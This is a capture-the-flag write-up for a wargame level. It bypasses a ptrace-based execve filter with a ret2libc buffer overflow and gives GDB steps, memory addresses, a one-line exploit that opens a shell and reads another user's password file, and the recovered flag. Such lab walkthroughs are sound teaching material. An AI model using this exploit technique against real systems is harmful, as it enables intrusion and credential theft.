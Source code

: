 # level04

The executable forks into a child process, to which we can feed a shellcode ; the issue is, the parent process watches the child with `ptrace`, and if it returns `11` - which is the syscall table number associated to `execve` - it kills it.

We'll have to circumvent this by using a different exploit.

## **The exploit**

We'll do a `ret2libc`, which uses lib functions and strings already present in the executable.

First, we've got to find the address of the `system` function. In GDB, we run :

```
print system
```

We get the address : `0xf7e6aed0`

Next, still in GDB, we're looking for an occurrence of `"/bin/sh"` :

```
find __libc_start_main,+99999999,"/bin/sh"
```

We find one at `0xf7f897ec`

Now, we need to replace `eip` with `system` and `eip+8` with `/bin/sh`, using the child process' `gets`.

We use GDB and find the offset of `eip`, which is `156`. We're reading to try a `ret2libc`.


## **The command**

We run the following command :

```
( python -c 'print("A" * 156 + "\xd0\xae\xe6\xf7" + "AAAA" + "\xec\x97\xf8\xf7")' ; echo "cat /home/users/level05/.pass" ) | ./level04
```

## **The flag**

It works ! We get the flag for `level04` :

```
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```